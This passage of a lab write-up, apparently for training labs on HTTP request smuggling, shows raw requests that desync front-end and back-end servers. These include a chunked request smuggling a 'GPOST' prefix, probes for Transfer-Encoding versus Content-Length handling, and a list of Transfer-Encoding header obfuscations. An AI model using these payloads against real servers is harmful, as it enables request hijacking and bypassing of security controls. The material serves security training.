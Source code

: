     x=1

Use `HTTP Request Smuggler` to convert it to chunked. Fix the CL header so that the body only contains everythign before the `GPOST`. The request should now look like this:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 102
    Transfer-Encoding: chunked

    5b
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    0

### LAB: HTTP request smuggling, obfuscating the TE header
First identify what the front-end is using to identify where a request ends:

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    3
    abc
    X

We got an `Invalid request` error which shows that the frontend is using TE to indicate the end of the request but got an invalid end element `X`.
Next identify what the back-end is using to identify where a request ends:

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    0
    
    X

We immediately got a `200 OK` response which indicates that the back-end is also using TE. 
Now try all of this technique to identify the TE header obfuscation vulnerability:

    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked
